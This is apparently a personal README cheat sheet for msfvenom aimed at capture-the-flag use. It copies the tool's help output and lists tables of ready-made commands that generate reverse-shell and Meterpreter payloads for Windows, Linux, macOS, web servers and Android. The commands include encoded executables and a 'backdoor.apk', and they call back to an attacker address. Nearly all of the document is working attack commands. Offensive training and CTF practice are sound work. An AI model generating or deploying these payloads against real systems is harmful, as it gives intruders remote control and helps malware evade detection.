 # msfvenom

- [Introduction](#introduction)
- [Usage](#usage)
- [Examples](#examples)

## Introduction

I use msfvenom in capture the flag events when I am trying to get access to a machine or when trying to escalate my privileges. What makes this tool so great is that I can craft a payload and output it in a wide array of formats. Some of those outputs include:

- php script
- python script
- Windows executable
- Windows service
- bash script

## Usage

```bash
$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

## Examples

Below are some different payload commands. I have grouped them with a heading to help explain what the payload is for.

### Windows Payloads

| Description | Command |
| --- | --- |
| Windows Reverse TCP Meterpreter | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe` |
| Windows Reverse HTTP Meterpreter | `msfvenom -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=8080 -f exe > shell_http.exe` |
| Windows Reverse HTTPS Meterpreter | `msfvenom -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -f exe > shell_https.exe` |
| Windows Staged Reverse TCP | `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell_stage.exe` |
| Windows Reverse TCP PowerShell | `msfvenom -p windows/powershell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.ps1` |
| Windows Executable with Custom Encoder | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > encoded_shell.exe` |

### Linux Payloads

| Description | Command |
| --- | --- |
| Linux x86 Reverse TCP | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux x64 Reverse TCP | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf > shell_x86.elf` |
| Linux Bind TCP | `msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > bind_shell.elf` |

### OSX / macOS Payloads

| Description | Command |
| --- | --- |
| macOS Reverse TCP | `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f macho > shell.macho` |

### Web Payloads

| Description | Command |
| --- | --- |
| PHP Reverse TCP | `msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.php` |
| ASP Reverse TCP | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f asp > shell.asp` |
| JSP Reverse TCP | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.jsp` |
| Python Reverse TCP | `msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f raw > shell.py` |
| Perl Reverse TCP | `msfvenom -p cmd/unix/reverse_perl LHOST=10.10.10.10 LPORT=4444 -f raw > shell.pl` |
| WAR File (Tomcat deployment) | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f war > shell.war` |
| Bash Reverse TCP | `msfvenom -p cmd/unix/reverse_bash LHOST=10.10.10.10 LPORT=4444 -f raw > shell.sh` |

### Android Payloads

| Description | Command |
| --- | --- |
| Android Reverse TCP APK | `msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -o backdoor.apk` |
